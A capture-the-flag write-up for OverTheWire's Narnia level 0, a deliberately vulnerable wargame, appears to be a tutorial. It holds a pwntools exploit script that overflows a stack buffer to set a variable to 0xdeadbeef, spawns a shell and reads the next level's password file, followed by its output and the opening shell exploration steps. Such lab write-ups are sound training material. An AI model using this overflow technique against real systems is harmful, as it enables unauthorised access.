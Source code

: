 ----

### Using pwntools
```Python
from pwn import *

context(arch='i386', os='linux')
s = ssh(user='narnia0', host='narnia.labs.overthewire.org', password='narnia0', port=2226)
sh = s.run('/narnia/narnia0')
sh.sendline('A'*20 + p32(0xdeadbeef))
sh.sendline('cat /etc/narnia_pass/narnia1')
while 1:
    print(sh.recvline())
# log.info('Flag: '+sh.recvline().split('\n')[0])
s.close()

```

Gets us:
```bash
root@da7a0fa7b53e:/tutorial/CTF/narnia/level0# python exploit.py
[+] Connecting to narnia.labs.overthewire.org on port 2226: Done
[!] Couldn't check security settings on 'narnia.labs.overthewire.org'
[+] Opening new channel: '/narnia/narnia0': Done
Correct val's value from 0x41414141 -> 0xdeadbeef!

Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?

val: 0xdeadbeef

$ efeidiedae
```

----


Log in into the game:
```bash
ssh narnia0@narnia.labs.overthewire.org -p 2226 # password narnia0
```
Explore the file system:
```bash
narnia0@narnia:~$ ls
narnia0@narnia:~$ pwd
/home/narnia0
```
Nothing here, continue exploring and found:
```bash
narnia0@narnia:/narnia$ cd /narnia/
narnia0@narnia:/narnia$ ls
narnia0    narnia1.c  narnia3    narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4    narnia5.c  narnia7    narnia8.c
```
permissions inform that likely, we'll need to crack narnia0.c:
```
narnia0@narnia:/narnia$ ls -l
total 108
-r-sr-x--- 1 narnia1 narnia0 7568 Nov  9 15:08 narnia0
-r--r----- 1 narnia0 narnia0 1186 Nov  9 15:08 narnia0.c
-r-sr-x--- 1 narnia2 narnia1 7404 Nov  9 15:08 narnia1
-r--r----- 1 narnia1 narnia1 1000 Nov  9 15:08 narnia1.c
-r-sr-x--- 1 narnia3 narnia2 5164 Nov  9 15:08 narnia2
-r--r----- 1 narnia2 narnia2  999 Nov  9 15:08 narnia2.c
-r-sr-x--- 1 narnia4 narnia3 5836 Nov  9 15:08 narnia3
-r--r----- 1 narnia3 narnia3 1841 Nov  9 15:08 narnia3.c
-r-sr-x--- 1 narnia5 narnia4 5336 Nov  9 15:08 narnia4
```